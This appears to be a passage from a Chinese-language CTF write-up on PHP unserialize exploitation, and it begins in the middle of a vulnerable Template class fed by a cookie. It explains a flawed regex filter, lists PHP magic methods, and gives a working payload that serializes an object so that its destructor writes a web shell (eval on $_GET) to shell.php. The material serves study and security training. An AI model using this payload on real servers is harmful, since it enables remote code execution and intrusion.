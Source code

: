 ```php
            return unserialize($data);
        }
        return [];
    }

    public function createCache($file = null, $tpl = null) {
        $file = $file ?? $this->cacheFile;
        $tpl = $tpl ?? $this->template;
        file_put_contents($file, $tpl);
    }

    public function render($data) {
        echo sprintf(
            $this->template,
            htmlspecialchars($data['name'])
        );
    }

    public function __destruct() {
        $this->createCache();
    }
}

new Template($_COOKIE['data']);
```

`createCache()` 里面有个 `file_put_contents()` 可以拿来写 `shell` ，再结合一下 `__destruct()` 构造反序列化漏洞来利用。

`loadData()` 本意可能是想反序列化一个数组，有简单的过滤，但是`preg_match()` 这里的 `\` 写的有问题，造成正则匹配过滤失效。

**魔术方法**

```php
__wakeup() 		//使用unserialize时触发
__sleep() 		//使用serialize时触发
__destruct() 	//对象被销毁时触发
__call() 		//在对象上下文中调用不可访问的方法时触发
__callStatic() 	//在静态上下文中调用不可访问的方法时触发
__get() 		//用于从不可访问的属性读取数据
__set() 		//用于将数据写入不可访问的属性
__isset() 		//在不可访问的属性上调用isset()或empty()触发
__unset() 		//在不可访问的属性上使用unset()时触发
__toString() 	//把类当作字符串使用时触发
__invoke() 		//当脚本尝试将对象调用为函数时触发
```

### payload

+ 将对象放到数组里

```php
<?php
class Template {
    public $cacheFile = 'shell.php';
    public $template = '<?php eval($_GET[1]); ?>';
}

$arr = array(new Template);
echo urlencode(serialize($arr));

// a:1:{i:0;O:8:"Template":2:{s:9:"cacheFile";s:9:"shell.php";s:8:"template";s:24:"<?php eval($_GET[1]); ?>";}}
// 即可成功写入 shell.php
```
